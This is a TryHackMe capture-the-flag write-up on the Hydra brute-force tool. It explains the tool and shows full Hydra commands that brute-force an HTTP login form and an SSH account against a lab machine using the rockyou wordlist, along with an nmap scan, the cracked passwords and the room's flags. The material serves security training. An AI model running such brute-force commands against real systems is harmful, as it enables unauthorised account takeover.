


# What is Hydra
- Hydra is a brute force online password cracking program. 
- It is a tool for quickly hacking system login passwords. 
- Hydra can automate the process of guessing passwords across different authentication services. 
- Supported protocols include Asterisk, AFP, Cisco AAA, FTP, HTTP, HTTPS, IMAP, MySQL, SSH, and many more. 
- For details on protocol options, refer to the Kali Hydra tool page. 
- A strong password is important; weak passwords are easy to guess. 
- Common passwords and default logins (like admin:password) should be changed. 

# Installing Hydra 
- Hydra is pre-installed on the AttackBox; access it via the Start AttackBox button. 
- It is also available on the in-browser Kali machine as part of all Kali distributions. 
- To use it on another Linux distribution (like Ubuntu or Fedora), use apt install hydra or dnf install hydra. 
- Hydra can also be downloaded from the official THC-Hydra repository.

# Try Hack Me Challenge

So for the first part I used the following command:
```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

Password found: sunshine

Now accesing the app we get the flag: 
THM{2673a7dd116de68e85c48ec0b1f2612e}

For the second part, we need to bruteforce the SSH password. So first ill use nmap to find the server (Probably Port 22) but to be sure.

Using:
```bash
nmap -sV -sC MACHINE_IP -vv
```
We get:


Now we know ssh its available we just have to bruteforce the ssh password of molly's.
Using:
```bash
 hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.102.117 -t 4 ssh
```
We get the following password: butterfly
accessing to molly ssh with:
ssh molly@MACHINE_IP
password:butterfly
cat flag2.txt

we get the following: THM{c8eeb0468febbadea859baeb33b2541b}

